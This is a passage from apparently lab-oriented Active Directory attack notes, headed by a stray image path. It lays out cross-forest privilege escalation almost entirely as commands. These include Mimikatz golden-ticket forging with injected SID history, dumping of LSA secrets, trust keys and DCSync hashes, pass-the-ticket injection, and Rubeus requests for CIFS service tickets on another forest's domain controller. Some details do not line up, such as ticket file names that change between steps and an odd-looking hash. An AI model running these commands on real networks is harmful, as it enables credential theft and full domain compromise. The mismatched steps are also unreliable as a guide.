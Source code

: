     Invoke-Mimikatz -Command '"Kerberos::golden /user:DCORP-DC$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /target:moneycorp.local  /ticket:trust_stealth_tkt.kirbi"'
    
    ```
    

**CASE II: Privilege Escalation from one forest to other Forest (SID Filtering is enabled for external and forest level trust)**

- STEP 1: Identify if there is trust between current domain and foreign forest
    
    ```powershell
    Get-NetDomainTrust
    
    ```
    
- STEP 2: Fetch the Trust Keys of the external or forest level trust
    
    ```powershell
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
    
	#Forest Priv Esc

	Invoke-Mimikatz -Command '"lsadump::trust /patch"' # require the trust key of inter-forest trust
	
	Invoke-Mimikatz -Command '"lsadump::dcsync /domain:DOLLARCORP.MONEYCORP.LOCAL /all /csv"'

	Invoke-Mimikatz -Command '"kerberos::golden /user:student21 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ptt"'

	gwmi -Class win32_computersystem -ComputerName mcorp-dc.moneycorp.local

    
    ```
    
- STEP 3: Use the Trust Key to craft a TGT
    
    ```powershell
    Invoke-Mimikatz -Command '"kerberos::golden /user:administrator  /domain:organicsecurity.local /sid:S-1-5-21-223322223-11111111-538504511  /rc4:d98c9dc732432432432f58a /service:krbtgt /target:anotherdomain.local /ticket:apple_trust_tkt.kirbi"'
    
    ```
    
- STEP 4: Inject the ticket back into the memory
    
    ```powershell
    Invoke-Mimikatz -Command '"kerberos::ptt eurocorp_trust_tkt.kirbi"'
    
    ```
    
- STEP 5: Request a TGS for CIFS Service on the DC of AnotherForest Domain (Possible to create TGS for other service as well like HOST,RPCSS,LDAP etc)
    
    ```powershell
    .\Rubeus.exe asktgs /ticket:eurocorp_trust_tkt.kirbi /service:CIFS/eurocorp-dc.eurocorp.local  /dc:eurocorp-dc.eurocorp.local  /ptt
    
    ```
    